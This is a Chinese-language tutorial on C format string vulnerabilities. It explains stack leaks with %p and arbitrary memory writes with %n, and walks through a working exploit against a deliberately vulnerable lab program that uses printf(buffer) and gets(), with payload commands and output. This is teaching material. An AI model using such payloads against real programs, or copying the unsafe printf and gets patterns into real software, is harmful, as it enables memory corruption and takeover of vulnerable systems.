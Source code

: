 # Format String Vulnerability 1



​	格式化字符串漏洞是由于不良的编程实践导致的。如果一个程序，把用户输入作为参数没有做严格的校验就使用如 `printf` 、`sprintf`、`fprintf` 这类的函数进行格式化输出。那么攻击者可以通过利用漏洞实现任意内存读写。



下面是一段示例代码：

```C
int main(int argc, char** argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf(buffer);
    return 0;
}
```



`printf` 函数接收多个参数，它本身不能识别接收的参数个数，而是需要程序员通过使用格式化占位符，来指定要接收的参数个数以及参数的类型。



了解printf是如何读取多个参数的：

[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).

了解格式化占位符：

[this](http://www.cplusplus.com/reference/cstdio/printf/).



对于上面的示例代码，假设你给程序一个正常的输入，如输入你的用户名，像这样： `./string0 Rohit`

你会得到和你输入一样的字符串作为输出。但攻击者并不会按照你程序设想的来。假设你喂给程序的输入是 一个 `%x` （因为攻击者知道`printf`函数接收的第一个参数是格式化字符串，所以这没有什么奇怪的。）一个畸形的格式化字符串也许能泄露出栈上面的内容。



:astonished: 攻击者可以获取到 Stack 中的内容。​



### 获取栈上面的内容



尝试这样执行：

```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$
```
瞧，发生了什么？



`%p` 是以十六进制格式打印内存中的内容的格式化占位符。攻击者戏弄 **printf** ，通过喂给程序格式化占位符，而不是一般的字符串，让它打印出内存中的内容。这就是格式化字符串漏洞。



### 除此之外还能做什么？



不仅仅是泄露内存数据。这类型的漏洞可以允许攻击者写任意内存。要想理解写任意内存的实现原理，我们需要先弄清楚一个特殊的格式化占位符：`%n` 。这个占位符可以让 **printf** 根据后面跟的一个参数，写任意内存地址。

e.g

```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```


简单讲，`%n` 把前面字符串中字符的个数写到变量`i`的地址内存中。





现在我们明确了两样东西：

* 复用格式化占位符作为 printf() 的传入参数来获取内存中的数据.
* 修改Stack上任意内存空间(变量的值).



### 来看一个实际的利用 :metal:




利用格式化字符串很重要的一点在于确定offset。首先我们需要确定大概需要跳过多少个4byte大小（x86）的内存，然后就可以触碰到buffer。为了确定这个offset，我首先输入 `AAAA` 作为buffer的起始，使用下面的payload进行测试：

​	``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``

得到的程序输出如下：

​	`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`



留意这里，`0x41414141` 是在程序输出中的倒数第三个。对应就是我们输入的AAAA。这就意味着我们越过9个 `%p`后，也就是第10个的时候就是我们的buffer的位置。你需要自己在自己的环境中进行测试，你可能会是跟我这里不一样的offset。

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```


​	现在，我要来证明如何使用我们已经学到的知识来改变程序的控制流。请看上面这段代码，利用前面讲的方法通过利用格式化字符串漏洞来确定到buffer的offset。进一步确定buffer的address。

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`

​	Output:

`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.

​	在我这个环境中这里同样是在 第10个位置上。:metal:

接下来思考一下：

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`

​	执行上面这段命令，会把输入的AAAA的长度 `8 * 4` 也就是十进制的 32 写到第10个参数所在的内存中。而第10个参数就是对应的我们的 `0x41414141` 因此，这就是说这段payload会把内存中原来的 `0x41414141` 覆写为值32。但如果内存被设置为 **read-only** 你会得到一个 `Segmentation Fault` 

​	那么对于这种情况，假如说我们喂给程序的是一个有意义的值，而不是 `0x41414141` 那又会怎样呢？如此一来，使用 `%n` 就可以把值写到我们提供的内存地址了。



​	对于上面这个案例，我们可以通过静态的方式去拿变量 `myvar` 的地址。

`objdump -t ./string1 | grep myvar`</br>
`0804a028 g     O .bss    00000004              myvar`

​	第一列所对应的就是`myvar`变量的地址。

​	接着我们要构造exploit实现修改程序中变量的值来实现修改程序后面的控制流结构。

`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``

​	得到如下的输出：

``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

​	:cool: 我们成功地利用了这个漏洞。



#### 学到了什么：



​	利用格式化字符串漏洞，我们可以exploit程序，实现修改任意地址内存中的值。


